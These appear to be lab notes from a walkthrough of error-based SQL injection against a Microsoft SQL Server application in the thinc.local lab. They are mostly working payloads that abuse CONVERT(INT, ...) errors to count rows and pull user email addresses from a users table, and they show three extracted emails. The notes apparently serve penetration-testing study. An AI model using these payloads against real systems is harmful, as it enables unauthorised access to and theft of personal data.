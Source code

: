 ```shell
#To extract data, first count the entries in the table (replace table1 with appropriate table name):
', CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM users)+CHAR(58)+CHAR(58))))--
```

![[11. table entries.png]]


```shell
# made table 1 users in syntax need to change column 1 and 2
', CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 column1+CHAR(58)+column2 FROM (SELECT top 1 column1 , column2 FROM users ORDER BY column1  ASC) sq ORDER BY column1  DESC)+CHAR(58)+CHAR(58))))--
```

![[12. column 1 and 2.png]]

```shell

', CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 column1+CHAR(58)+column2 FROM (SELECT top 1 email , username FROM users ORDER BY column1  ASC) sq ORDER BY column1  DESC)+CHAR(58)+CHAR(58))))--


', CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 email+CHAR(58)+username FROM (SELECT top 1 email , username FROM users ORDER BY email  ASC) sq ORDER BY email  DESC)+CHAR(58)+CHAR(58))))--



', CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 column1+CHAR(58)+column2 FROM (SELECT top 1 column1 , column2 FROM users ORDER BY column1  ASC) sq ORDER BY email  DESC)+CHAR(58)+CHAR(58))))--
```


```shell
# extracting email column data from users table

', CONVERT(INT,(SELECT top 1 email FROM users))--

email found: eric@thinc.local

```

![[13. eric thinc.local.png]]

```shell
#gathering 2nd email
', CONVERT(INT,(SELECT top 1 email FROM users WHERE email NOT IN ('eric@thinc.local'))))--

email found: alice@thinc.local
```

![[14. alice thinc.local.png]]


```shell
# 3rd user email

', CONVERT(INT,(SELECT top 1 email FROM users WHERE email NOT IN ('eric@thinc.local', 'alice@thinc.local'))))--

email found pedro@thinc.local
```
